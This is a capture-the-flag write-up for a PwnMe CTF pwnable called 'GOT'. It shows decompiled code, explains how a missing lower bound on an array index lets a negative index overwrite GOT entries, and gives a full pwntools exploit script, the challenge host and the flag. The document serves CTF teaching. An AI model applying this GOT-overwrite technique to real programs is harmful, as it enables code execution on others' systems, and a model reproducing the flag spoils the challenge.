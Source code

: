 ```yaml
---
title: PWNMECTF PWNABLE

---
```


# PWNMECTF PWNABLE
### Introduction:
- This is a write-up of GOT challenge by HiuHiu.
## IDA
- Main function:
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )                                // OOB-able
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 32uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```
> Firstly, we are required to enter the index as the idx of each name listed, including: "John, Daenarys, Bran, Arya".
> Then this input is checked if the its value is greater than 4 for the correction requirement of the names based on the index or an exit. 
- Shell function:
```
void __cdecl shell()
{
  system("/bin/sh");
}
```
> Basically is our target =))

## IDEA
- With the check of the index we could find an OutOfBound bug because the index was check only with the value of 4 (greater) while there is no limit for the lower 0 index. With that in mind, we will use the bug to investigate the data of those stage of memory and find the way for exploitation.

## EXPLOIT
- Checksec
> ![{3C0EF49A-B230-437E-840D-4FB96F17AEB4}](https://hackmd.io/_uploads/S1jqwN7okg.png)
> Pay attention on PIE (off) and RELRO (partial) -> function can be called easily and the got table can be overwriten

- GDB
> Have a test with idx = 0:
> ![{ADFE6F67-66BF-4142-A0DE-DEB66A374C4A}](https://hackmd.io/_uploads/B1jZY4Xiyl.png)
> We can see that our idx is read on the stack at 0x7fffffffde24 and then it is moved in the eax and converted to the form of 8 bytes. Then it is shifted to the left 5 bytes and the result is as the result of the multiplication of the idx and 2 power 5 (idx * 2^5), following by the PNJs address added (0x404080). Finally, based on the above result in the rax, we are asked to have the input and it will be stored in the result.
> - We can have the formula: idx * 0x20 = result (where the input will be writen).
> - With that formula, with the idx, the address we write is 0x20 byte in distance and we are able to write at 0x404080 + (idx * 0x20).
> - Let's have the investigate at the lower addresses from PNJs + 0:
> ![{05E3AA23-DE66-4540-9A37-FD31289B9DEC}](https://hackmd.io/_uploads/S1_ts47s1l.png)
> - And we got the GOT table here. The idea will be completed with the overwriting of a GOT address satisfying the formula by the Shell function address.
> - We can realize that we can only write at exit and read fuction. Have a look back to IDA to check if it is possible to overwrite and to see if it makes sense:
> ```
> puts("Oh really ? What's the correct spelling ?");
> fwrite("> ", 1uLL, 2uLL, stdout);
> read(0, &PNJs[idx], 32uLL);
> puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
> return 0;
> ```
> - After the read function is called, the only remaining function is puts and puts' address is not reasonable for our formula.
> - So how can we do now??? Just chill here=))) You're all forgot 1 thing is the input for correction have the size of 32 bytes. 
> "But HiuHiu what can we do with that?"
> - Alright, we will have the exit@plt overwiten by 8 bytes from our input right? And the size of input is 32. It means we can overwrite the 3 lower functions in the GOT table and see what? puts@plt is just below the exit one.
> **=> So the solutions is our input will include 16 bytes with first 8 bytes is random and the remaining is the address of Shell function.**
- Script:
> What are you waiting for? Go having the script written like this:
> ```
> sla(b'> ',b'-4')
> payload = b'a'*8 + p64(exe.sym.shell)
> sla(b'?\n> ',payload)
> p.interactive()
> ```
> Just simple like that and have a run:
> ![{717F17A7-9D2D-45AE-A2DC-0B61DA885FDB}](https://hackmd.io/_uploads/Skhs1Bmsye.png)
> We had the local flag and now it's time for the server:
> ![{CCE33E89-197D-486E-8474-2A19418A1DD3}](https://hackmd.io/_uploads/H1U0yrmjkg.png)
> Oh Oh, the server seemed to be closed due to the end of the competition but don't worry i got it noted in my script.

**=> Challenge completed**

## FULLSCRIPT
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('got', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+120
        b*main+243
        c
        ''')
        input()


if args.REMOTE:
    p = remote('got-0f2e3f0dab2a139f.deploy.phreaks.fr',443,ssl = True)
else:
    p = process([exe.path])
GDB()

#using OOB to access to exit got and the formula is: index*0x20 + 0x404080(an address of rw section)
#idx = -4: with the idx so now the address accessed is 0x404080 + (-4*0x20) = 0x404000 is the exit()

sla(b'> ',b'-4')
payload = b'a'*8 + p64(exe.sym.shell)
sla(b'?\n> ',payload)
p.interactive()

#flag: PWNME{G0t_Ov3Rwr1t3_fTW__}
```